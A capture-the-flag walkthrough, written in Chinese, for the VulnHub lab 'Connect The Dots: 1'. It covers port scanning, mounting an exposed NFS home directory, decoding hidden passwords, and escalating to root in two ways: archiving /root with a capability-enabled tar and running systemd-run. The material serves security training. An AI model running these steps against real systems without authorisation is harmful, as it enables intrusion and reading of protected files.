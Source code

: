 # Connect The Dots: 1

2024-6-11 https://www.vulnhub.com/entry/connect-the-dots-1,384/

difficulty: Beginner-Intermediate

## IP

192.168.5.35

## Scan

Open Port -> 21,80,111,2049,7822,33373,53341,55305,55413

```
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 2.0.8 or later
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Landing Page
|_http-server-header: Apache/2.4.38 (Debian)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35567/udp6  mountd
|   100005  1,2,3      42073/tcp6  mountd
|   100005  1,2,3      53341/tcp   mountd
|   100005  1,2,3      58299/udp   mountd
|   100021  1,3,4      33373/tcp   nlockmgr
|   100021  1,3,4      41697/tcp6  nlockmgr
|   100021  1,3,4      53968/udp6  nlockmgr
|   100021  1,3,4      55869/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
7822/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 384fe876b4b704650976dd234eb569ed (RSA)
|   256 acd2a60f4b4177df06f011d592399feb (ECDSA)
|_  256 93f7786fcce8d48d754bc2bc134bf0dd (ED25519)
33373/tcp open  nlockmgr 1-4 (RPC #100021)
53341/tcp open  mountd   1-3 (RPC #100005)
55305/tcp open  mountd   1-3 (RPC #100005)
55413/tcp open  mountd   1-3 (RPC #100005)
```

有 ssh、web、nfs 等服务。先看看 nfs 会不会暴露什么映射信息:

```
showmount -e 192.168.5.35
Export list for 192.168.5.35:
/home/morris *
```

mount 到 kali 上:

```
mkdir -p /tmp/nfs
sudo mount -t nfs -o rw,vers=3 192.168.5.35:/home/morris /tmp/nfs
```

进入 /tmp/nfs 后，发现.ssh 文件夹，里面有公钥和私钥对。
id_rsa.pub 发现用户名 morris，尝试用私钥进行登陆，但是不能成功：

```
ssh -i id_rsa morris@192.168.5.35 -p 7822
```

访问 http://192.168.5.35/，显示了一些文字信息和图片。

使用 gobuster 进行扫描：

```
gobuster -t 32 dir -u http://192.168.5.35/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html,rar,zip,sql -e
```

http://192.168.5.35/hits.txt : Remember! Keep your enumeration game strong!

http://192.168.5.35/backups.html 显示的是一个视频。

http://192.168.5.35/mysite 显示了一个列目录，有一个登陆页面，但是没发现登陆点。查看列目录中的其他文件，发现一个 http://192.168.5.35/mysite/bootstrap.min.cs 文件，内容像是 jsfuck，进行解码看看什么内容：

```
alert("You're smart enough to understand me. Here's your secret, TryToGuessThisNorris@2k19")
```

可能是 morris 的 ssh 密码，尝试登陆，不对。

重新看最开始的首页链接，里面说名字的首字母不一样，一个是 M 另一个是 N,并且上面的密码中也有一个 Norris，是否可能还有一个 norris 的用户，尝试使用 ssh 进行登陆。登陆成功 norris:TryToGuessThisNorris@2k19

发现了 user flag:

```
norris@sirrom:~$ cat user.txt
2c2836a138c0e7f7529aa0764a6414d0
```

发现 norris 中有一个 ftp 文件夹，里面有一些 bak 备份文件。查看 game.jpg.bak，发现跟主页上的文件大小不一样，很有可能有信息。exiftool 发现 Comment 中摩尔斯码：

```
.... . -.-- ....... -. --- .-. .-. .. ... --..-- ....... -.-- --- ..- .----. ...- . ....... -- .- -.. . ....... - .... .. ... ....... ..-. .- .-. .-.-.- ....... ..-. .- .-. ....... ..-. .- .-. ....... ..-. .-. --- -- ....... .... . .- ...- . -. ....... .-- .- -. -. .- ....... ... . . ....... .... . .-.. .-.. ....... -. --- .-- ..--.. ....... .... .- .... .- ....... -.-- --- ..- ....... ... ..- .-. . .-.. -.-- ....... -- .. ... ... . -.. ....... -- . --..-- ....... -.. .. -.. -. .----. - ....... -.-- --- ..- ..--.. ....... --- .... ....... -.. .- -- -. ....... -- -.-- ....... -... .- - - . .-. -.-- ....... .. ... ....... .- -... --- ..- - ....... - --- ....... -.. .. . ....... .- -. -.. ....... .. ....... .- -- ....... ..- -. .- -... .-.. . ....... - --- ....... ..-. .. -. -.. ....... -- -.-- ....... -.-. .... .- .-. --. . .-. ....... ... --- ....... --.- ..- .. -.-. -.- .-.. -.-- ....... .-.. . .- ...- .. -. --. ....... .- ....... .... .. -. - ....... .. -. ....... .... . .-. . ....... -... . ..-. --- .-. . ....... - .... .. ... ....... ... -.-- ... - . -- ....... ... .... ..- - ... ....... -.. --- .-- -. ....... .- ..- - --- -- .- - .. -.-. .- .-.. .-.. -.-- .-.-.- ....... .. ....... .- -- ....... ... .- ...- .. -. --. ....... - .... . ....... --. .- - . .-- .- -.-- ....... - --- ....... -- -.-- ....... -.. ..- -. --. . --- -. ....... .. -. ....... .- ....... .----. ... . -.-. .-. . - ..-. .. .-.. . .----. ....... .-- .... .. -.-. .... ....... .. ... ....... .--. ..- -... .-.. .. -.-. .-.. -.-- ....... .- -.-. -.-. . ... ... .. -... .-.. . .-.-.-
```

进行解码：

```
HEY NORRIS, YOU'VE MADE THIS FAR. FAR FAR FROM HEAVEN WANNA SEE HELL NOW? HAHA YOU SURELY MISSED ME, DIDN'T YOU? OH DAMN MY BATTERY IS ABOUT TO DIE AND I AM UNABLE TO FIND MY CHARGER SO QUICKLY LEAVING A HINT IN HERE BEFORE THIS SYSTEM SHUTS DOWN AUTOMATICALLY. I AM SAVING THE GATEWAY TO MY DUNGEON IN A 'SECRETFILE' WHICH IS PUBLICLY ACCESSIBLE.
```

提示有一个 SECRETFILE 文件

```
norris@sirrom:~/ftp/files$ find / -name secretfile 2>/dev/null
/var/www/html/secretfile

norris@sirrom:/var/www/html$ cat secretfile
I see you're here for the password. Holy Moly! Battery is dying !! Mentioning below for reference.
```

发现隐藏文件 .secretfile.swp 但是需要 www-data 的权限才能读取，通过浏览器访问，保存在 kali 上。

```
file secretfile.swp
secretfile.swp: Vim swap file, version 8.1, pid 4983, user root, host sirrom, file /var/www/html/secretfile, modified

strings secretfile.swp
b0VIM 8.1
root
sirrom
/var/www/html/secretfile
U3210
#"!
blehguessme090
I see you're here for the password. Holy Moly! Battery is dying !! Mentioning below for reference..
```

sirrom 、U3210、blehguessme090 可能为密码，系统上还有另外 2 个用户 root 和 morris 看看是哪个用户的，经过 su，发现 morris 的密码是 blehguessme090

继续进行系统枚举，找到提权到 root 的路径。

getcap 发现 /usr/bin/tar = cap_dac_read_search+ep 可以打包读取敏文文件：

```
morris@sirrom:/etc$ /usr/sbin/getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/tar = cap_dac_read_search+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/ping = cap_net_raw+ep

norris@sirrom:/var/www/html$ ls -al /usr/bin/tar
-r-xr-x--- 1 root norris 445560 Apr 23  2019 /usr/bin/tar

cd /tmp
tar -czf /tmp/root.tar.gz /root
cd /tmp
tar -zxf root.tar.gz

norris@sirrom:/tmp/root$ cat root.txt
8fc9376d961670ca10be270d52eda423
```

必须切换到 norris 来执行 tar。最终得到了 root flag

其他提权到 root 的路径都没有找到，使用 linpeas 发现 /usr/lib/policykit-1/polkit-agent-helper-1，尝试用这个看看能不能提权到 root:

https://learn.redhat.com/t5/Platform-Linux/Another-interesting-local-privilege-escalation-vulnerability/td-p/2872

```
systemd-run --shell
输入密码
root@sirrom:/# id
uid=0(root) gid=0(root) groups=0(root)
```

